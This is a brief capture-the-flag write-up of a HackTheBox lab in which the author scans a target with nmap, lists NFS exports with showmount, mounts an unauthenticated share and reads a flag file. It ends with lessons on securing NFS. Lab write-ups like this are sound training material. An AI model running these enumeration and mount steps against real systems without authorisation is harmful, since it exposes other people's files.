 # Day19 - insecure_nfs

- **Platform**: HackTheBox  
- **Category**: Networking / Forensics  
- **Difficulty**: Easy  
- **Date**: 2025-05-19  
- **Tools Used**: Nmap, showmount, mount, dig  

---

## Summary
The challenge exposed an insecure NFS export named `nfsshare`. By enumerating exports, mounting the share with `nolock`, and reviewing its contents, I was able to access `flag.txt` and retrieve the flag.

---

## Enumeration
- Scanned the target with Nmap:
  ```bash
  nmap -sV -p 111,2049 <target-ip>
  ```
  - Confirmed NFS service was running.  

- Listed available exports:
  ```bash
  showmount -e <target-ip>
  ```
  - Found export: `/nfsshare`.  

- Mounted the share:
  ```bash
  sudo mount -t nfs -o nolock <target-ip>:/nfsshare /mnt
  ```

---

## Exploitation
- Navigated to the mounted share:
  ```bash
  ls -al /mnt
  ```
- Located `flag.txt`.  
- Read the file to retrieve the flag:
  ```bash
  cat /mnt/flag.txt
  ```

---

## Lessons Learned
- Insecure NFS exports often expose sensitive files to unauthenticated users.  
- Always check for world-readable shares when enumerating NFS.  
- The `nolock` option bypasses lock daemons, useful in CTF labs.  
- Proper configuration and access controls are critical to securing NFS services.  
